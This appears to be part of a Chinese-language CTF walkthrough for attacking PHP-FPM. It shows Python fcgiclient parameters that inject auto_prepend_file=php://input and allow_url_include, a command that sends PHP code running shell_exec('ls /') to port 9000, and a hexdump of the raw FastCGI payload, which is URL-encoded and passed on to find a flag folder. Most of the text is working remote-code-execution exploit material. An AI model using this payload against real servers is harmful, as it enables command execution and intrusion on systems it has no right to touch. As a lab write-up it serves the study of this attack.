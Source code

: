 ```python
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
```

执行脚本

```
python2 fastcgi.py -c "<?php var_dump(shell_exec('ls /'));?>" -p 9000 127.0.0.1 /usr/local/lib/php/REAP.php
```

hexdump 1.txt可以查看获得的流量

用脚本对其进行url编码，一次不行两次进行传值可以得到文件信息，可以发现flag文件夹

```python
a='''
0101 4249 0008 0000 0001 0000 0000 0000
0104 4249 01e7 0000 0e02 434f 4e54 454e
545f 4c45 4e47 5448 3337 0c10 434f 4e54
454e 545f 5459 5045 6170 706c 6963 6174
696f 6e2f 7465 7874 0b04 5245 4d4f 5445
5f50 4f52 5439 3938 350b 0953 4552 5645
525f 4e41 4d45 6c6f 6361 6c68 6f73 7411
0b47 4154 4557 4159 5f49 4e54 4552 4641
4345 4661 7374 4347 492f 312e 300f 0e53
4552 5645 525f 534f 4654 5741 5245 7068
702f 6663 6769 636c 6965 6e74 0b09 5245
4d4f 5445 5f41 4444 5231 3237 2e30 2e30
2e31 0f1b 5343 5249 5054 5f46 494c 454e
414d 452f 7573 722f 6c6f 6361 6c2f 6c69
622f 7068 702f 5045 4152 2e70 6870 0b1b
5343 5249 5054 5f4e 414d 452f 7573 722f
6c6f 6361 6c2f 6c69 622f 7068 702f 5045
4152 2e70 6870 091f 5048 505f 5641 4c55
4561 7574 6f5f 7072 6570 656e 645f 6669
6c65 203d 2070 6870 3a2f 2f69 6e70 7574
0e04 5245 5155 4553 545f 4d45 5448 4f44
504f 5354 0b02 5345 5256 4552 5f50 4f52
5438 300f 0853 4552 5645 525f 5052 4f54
4f43 4f4c 4854 5450 2f31 2e31 0c00 5155
4552 595f 5354 5249 4e47 0f16 5048 505f
4144 4d49 4e5f 5641 4c55 4561 6c6c 6f77
5f75 726c 5f69 6e63 6c75 6465 203d 204f
6e0d 0144 4f43 554d 454e 545f 524f 4f54
2f0b 0953 4552 5645 525f 4144 4452 3132
372e 302e 302e 310b 1b52 4551 5545 5354
5f55 5249 2f75 7372 2f6c 6f63 616c 2f6c
6962 2f70 6870 2f50 4541 522e 7068 7001
0442 4900 0000 0001 0542 4900 2500 003c
3f70 6870 2076 6172 5f64 756d 7028 7368
656c 6c5f 6578 6563 2827 6c73 202f 2729
293b 3f3e 0105 4249 0000 0000 

'''
```